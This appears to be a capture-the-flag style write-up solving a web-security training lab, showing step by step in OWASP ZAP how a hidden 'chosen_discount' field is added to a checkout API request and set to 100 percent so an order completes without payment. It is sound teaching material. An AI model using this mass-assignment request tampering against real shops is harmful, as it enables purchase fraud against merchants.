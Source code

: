 # Lab: Exploiting a mass assignment vulnerability [OWASP Zed Attack Proxy]

In ZAP open built-in browser and navigate to the lab URL. Login with credentials `wiener:peter`.

Visit the product __Lightweight "l33t" Leather Jacket__ add it to cart and place the order.

In ZAP an endpoint `/cart?err=INSUFFICIENT_FUNDS` appears with a response that contains an error message `Not enough store credit for this purchase`. 

There are also two other requests `GET` and `POST` with the same endpoint `/api/checkout`. right click both and click __Open/Resend with Request Editor...__. Send the GET request.

_Response Body:_
```
{
  "chosen_discount":{
    "percentage":0
  },
  "chosen_products":[
    {
      "product_id":"1",
      "name":"Lightweight \"l33t\" Leather Jacket",
      "quantity":1,
      "item_price":133700
    }
  ]
}
```

The `chosen_discount` parameter isn't present the request body of the `POST /api/checkout` request:

```
{
  "chosen_products":[
    {
      "product_id":"1",
      "quantity":1
    }
  ]
}
```

Let's add it and resend the request:

_Request:_
```
POST https://0ab0002d037f1213811d0d2800ee00a5.web-security-academy.net/api/checkout HTTP/1.1
...
...

{
  "chosen_discount":{
    "percentage":0
  },
  "chosen_products":[
    {
      "product_id":"1",
      "quantity":1
    }
  ]
}
```

Sending this request causes no errors.

_Response:_

```
HTTP/1.1 201 Created
Location: /cart?err=INSUFFICIENT_FUNDS
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0
```

If we change `"percentage"` value from `0` to `"x"` and resend the request, an error would appear:

_Response Body:_
```
{
  "error":"Key order: Key chosen_discount: Key percentage: string is not a number"
}
```

This indicates that the user input is being processed. Let's change `"percentage"` value to `100` and send the request to solve the lab. This time we received a response header `Location` with the value `/cart/order-confirmation?order-confirmed=true`:

```
HTTP/1.1 201 Created
Location: /cart/order-confirmation?order-confirmed=true
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0
```

> Return to the [original write-up](README.md)
